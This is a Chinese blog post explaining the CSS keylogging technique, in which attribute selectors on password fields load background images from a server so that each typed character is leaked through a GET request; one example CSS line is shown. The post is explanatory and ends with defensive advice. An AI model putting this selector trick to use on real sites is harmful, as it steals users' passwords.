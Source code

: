```yaml
---
title: 使用 css 获取用户密码
subtitle: 使用 css 去捕获用户密码，最容易忽视的往往是最容易出现问题的，安全问题不容小觑。
date: 2018-02-23
cover: http://oo12ugek5.bkt.clouddn.com/blog/images/18-02-23/112054010556572.png
categories: 日常学习
tags:
    - css
    - 安全

author:
  nick: minfive
  link: 'https://github.com/Mrminfive'
---
```


### 前言

新年工作第一天，在 github 上闲逛，发现了一个很有趣的项目，叫 [CSS-Keylogging][CSS-Keylogging]，这是一个演示如何用 css 去获取用户输入的密码的项目，这个项目与一两个月前的另外一个很火的项目 [CrookedStyleSheets][CrookedStyleSheets] 类似，甚至于有可能 [CSS-Keylogging][CSS-Keylogging] 就是受 [CrookedStyleSheets][CrookedStyleSheets] 启发才创建的。

### 不一样的 css

说到 css，大多数人的第一印象基本上就是用来配置界面样式的，甚至于连语言都称不上，但随着 web 技术的不停发展，其所具有的能力也与日俱新，不再是当初那个仅仅满足最基本布局需求的层叠样式表了，至于新的属性新的功能点笔者也了解不全，在这里也不便展开了。

话题回到不一样的 css 上，github 上 [jbtronics][jbtronics] 给出了这样一份答案 [CrookedStyleSheets][CrookedStyleSheets]，在这里笔者直接给上该项目的[中文文档][CrookedStyleSheetsDoc]，该文档上有一段关于输入监测的段落，请详细阅读完，如果早已看过请跳过继续看本文的后续部分。

### css 监听键盘记录

[CSS-Keylogging][CSS-Keylogging] 项目使用 css 监听键盘记录的方式一致，基本上是通过 css 选择器去实现功能，[CSS-Keylogging][CSS-Keylogging] 更为巧妙的使用多重选择器去捕获相应的按键事件。

核心代码如下:

``` css
input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }
```

解释如下：

当 type 为 'password' 的输入框的输入的最后一个字符为 '1' 时使用 url 为 `http://localhost:3000/1` 的背景图，css 在这种情况下会尝试进行 get 请求获取资源，这样的话，服务端就能接收到来至客户端发送的 get 请求。

当 `value$="1"` 时，我们可以监听用户输入 `1`，那如果我们监听键盘上所有的按键字符，那我们是不是就可以监听用户的所有按键输入了？答案是可以，该项目使用 go 脚本遍历 ascii 码表，将所有键盘可输入按键字符均进行捕获，生成如下样式表：

![code][code]

当然也可以用使用 nodejs 去生成样式表，至今不明白作者为什么用 node 搭服务器然后用 go 写脚本。。。有兴趣的同学可以将项目 clone 下来跑起来试试。

### 总结

为了避免有目的性的劫持注入，请尽快升级 https ，预防这种情况的发生，网络安全无处不在，希望不要选择性的去忽视它。


[CSS-Keylogging]: https://github.com/maxchehab/CSS-Keylogging
[CrookedStyleSheets]: https://github.com/jbtronics/CrookedStyleSheets
[jbtronics]: https://github.com/jbtronics
[CrookedStyleSheetsDoc]: https://github.com/jbtronics/CrookedStyleSheets/blob/master/docs/README.zh.md
[code]: http://oo12ugek5.bkt.clouddn.com/blog/images/18-02-23/code.png
